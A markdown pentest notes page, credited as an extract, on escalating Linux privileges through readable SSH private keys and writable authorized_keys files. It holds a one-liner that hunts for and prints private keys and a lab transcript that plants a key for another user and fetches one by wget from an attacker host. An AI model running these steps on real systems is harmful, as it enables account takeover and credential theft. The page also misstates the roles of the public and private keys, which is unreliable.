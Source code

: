 ```yaml
---
title: "Misconfigured SSH Keys"
author: am-a-circle
date: 2021-12-31 09:00:00 +0800
categories: [privilege escalation]
tags: [SSH]
math: false
mermaid: false
---
```


Extract from [here](https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/) !

## **Understanding Asymmetric Encryption**

Before diving into the possible attacks, it is crucial to understand the key pair concept that SSH and other asymmetric cryptographic protocols utilize to secure a connection. These use a private key to encrypt information, and a corresponding public key to decrypt it.

When communicating to a machine via SSH, a user can authenticate if their private key is considered trustworthy by the server and added to the [authorized_keys](https://www.ssh.com/ssh/authorized_keys/) file, or if their private key corresponds to a public key stored in the server.

The default name for public keys is usually id_rsa.pub or id_dsa.pub and the default name for private keys is id_rsa or id_dsa, based on the encryption algorithm used. DSA is known to be insecure.

## **Exploiting SSH Keys**

The main two ways of exploiting SSH keys are the following:

-   Accessing readable private SSH keys and using them to authenticate
-   Accessing writable public SSH keys and adding your own one to them to authenticate

If readable private keys or writable public keys are present on the machine, this could allow for an attacker to escalate privileges to root.

Public and private keys are generally stored in one of the following locations:

-   /root/.ssh/
-   /home/user_name/.ssh/ (users home directory)
-   /etc/ssh/
-   in the paths specified in the ssh_config or sshd_config config files

The following command can be used to identify any existing public or private keys and their permissions:

```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa
```

### **Readable Private Keys**

As mentioned earlier, private keys are used by users to authenticate via SSH. If a private key is stored in a way that makes it accessible to the current user, this means it can be used to perform an authentication as the owner of the private key.

The easiest way to exploit this is to simply copy the key over to a Kali host, by simply copying and pasting the contents of the file. 

In order for the private key to be accepted by SSH, it needs to be only readable and writable only by its owner, otherwise it will complain that the permissions applied are too open.

Using the following command to change the file permissions against the newly created SSH private key:

```
chmod 600 key_name
```

The following command can then be used to login as the “Victim” user:

```
ssh -i key_name user_name@X.X.X.X
```

### **Writable Public Keys**

The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured.

The default configuration in most SSH implementations allows users to deploy new [authorized keys](https://www.ssh.com/ssh/authorized-key) for themselves and anyone else, which are permanent and may bypass privileged access management systems.

If the authorized_keys file is writable to the current user, this can be exploited by adding additional authorized keys.

The easiest way to exploit this is to generate a new SSH key pair, add the public key to the file and login in using the private key.

The ssh-keygen command line utility can be used to generate a new SSH key pair.

The public key can then be copied with the ssh-copy command line tool:

```
ssh-copy-id user_name@X.X.X.X
```

Or simply by using cat to output the contents of the id_rsa.pub file and redirect it to the authorized_keys file:

```
cat ~/.ssh/id_rsa.pub | ssh user_name@X.X.X.X "cat >> /home/user_name/.ssh/authorized_keys"
```

The methods above will only work if SSH access is already available. If not, the contents of the public key can simply be pasted into the authorized_host file. Using xclip to add the public key to the clipboard or Copying the public key to the authorized_hosts file.

e.g.

```bash
www-data@five:/tmp$ ssh-keygen                                                                                                                                            
Generating public/private rsa key pair.                                                                                                                                   
Enter file in which to save the key (/var/www/.ssh/id_rsa): /tmp/id_rsa                                                                                                   
Enter passphrase (empty for no passphrase):                                                                                                                               
Enter same passphrase again:                                                                                                                                              
Your identification has been saved in /tmp/id_rsa.                                                                                                                        
Your public key has been saved in /tmp/id_rsa.pub.                                                                                                                        
The key fingerprint is:                                                                                                                                                   
SHA256:AqFOY+gJJbcHcANOjAprNc9ANyZT3hCD/n/gLJEPU6s www-data@five
The key's randomart image is:
+---[RSA 2048]----+
|*+B++O.          |
|=B X*.=          |
|=oO B. .         |
|==.+ + .         |
|.o. . + S        |
|     * +         |
|      X .        |
|     E = .       |
|      . .        |
+----[SHA256]-----+

www-data@five:/tmp$ ls    
id_rsa  id_rsa.pub  systemd-private-c92ecfd176894a7d8dabf029f877607c-systemd-timesyncd.service-c1CO3M


www-data@five:/tmp$ sudo -u melisa cp id_rsa.pub /home/melisa/.ssh/authorized_keys
```

Alternatively , instead of creating keys using SSH keygen , port over your id_rsa.pub and ssh through your local machine.

On victim Machine:
```bash
www-data@five:/tmp wget http://192.168.56.3:1235/id_rsa.pub

www-data@five:/tmp$ sudo -u melisa cp id_rsa.pub /home/melisa/.ssh/authorized_keys
```
On Local Machine:
```bash
┌──(root💀kali)-[/opt/hackmyv/five]
└─# ssh melisa@192.168.56.27 -i /root/.ssh/id_rsa
```
